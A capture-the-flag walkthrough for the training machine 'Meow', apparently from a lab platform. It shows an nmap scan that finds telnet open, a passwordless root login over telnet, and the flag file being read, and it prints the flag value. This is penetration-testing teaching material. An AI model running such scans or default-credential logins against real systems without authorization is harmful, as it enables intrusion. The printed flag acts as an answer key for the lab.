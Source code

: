 ```yaml
---
Title: Meow Walktrough
Author: sl0th0x87
Date: 2022/01/10
Tags: Linux, Network, Account Missconfiguration
Tools: nmap
Difficulty: very easy
---
```

# Meow

## General informations
* IP Attack Machine: 10.10.14.39
* IP Target Machine: 10.129.1.17
* Operating System: Linux

## NMAP scan

Make a portscan over all ports with service detecion\
Enable NMAP scripts and disable ping scan
```bash
sudo nmap -sV -sC -Pn -p- 10.129.1.17
```

Output:
```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-10 15:51 CET
Nmap scan report for 10.129.1.17
Host is up (0.042s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.70 seconds
```

### Open ports
* 23/tcp open  telnet  Linux telnetd

## Telnet
```bash
telnet 10.129.1.17
```

Output:
```bash
Trying 10.129.1.17...
Connected to 10.129.1.17.
Escape character is '^]'.

 █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
```
Try to login with user 'root'\
Wow, we are in. Telnet with root access and no password
```
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 10 Jan 2022 03:07:27 PM UTC

  System load:  0.45              Processes:             138
  Usage of /:   41.7% of 7.75GB   Users logged in:       0
  Memory usage: 4%                IPv4 address for eth0: 10.129.1.17
  Swap usage:   0%

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Jan 10 15:06:57 UTC 2022 on pts/0
root@Meow:~# 
```

Show files in root home directory
```bash
root@Meow:~# ls -l
total 8
-rw-r--r-- 1 root root   33 Jun 17  2021 flag.txt
drwxr-xr-x 3 root root 4096 Apr 21  2021 snap
```
Get root flag
```bash
root@Meow:~# cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19
```

Congratulations! You got the machine!